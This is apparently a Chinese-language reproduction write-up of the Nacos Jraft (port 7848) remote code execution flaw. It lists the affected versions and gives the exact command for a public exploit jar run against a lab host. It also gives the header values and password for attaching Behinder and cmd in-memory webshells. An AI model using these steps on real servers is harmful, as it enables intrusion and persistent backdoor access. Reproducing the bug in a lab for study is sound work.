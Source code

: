 nacos 1.x在单机模式下默认不开放7848端口，但是集群模式下受影响。

2.x版本无论单机还是集群均开放7848端口

主要受影响的是7848端口的Jraft服务。

受影响版本

  * 1.4.0 <= Nacos < 1.4.6

  * 2.0.0 <= Nacos < 2.2.3

不受影响版本

  * Nacos < 1.4.0

  * 1.4.6 <= Nacos < 2.0.0

  * Nacos >= 2.2.3

## 复现

利用nacos2.2.0的环境

![]()

使用github上面的工具

    
    
    https://github.com/c0olw/NacosRce/releases/tag/v0.5  
    

![]()

    
    
    java -jar NacosRce.jar  http://192.168.1.128:8848/nacos/#/login  7848 "whoami"  
    

我这里试的 只有前几次 能利用成功 后面好像都不咋行

![]()

## 冰蝎3.0连接

需要设置请求头`x-client-data:rebeyond`

设置`Referer:https://www.google.com/`

路径随意

密码`rebeyond`

![]()

## cmd内存马

需要设置请求头`x-client-data:cmd`
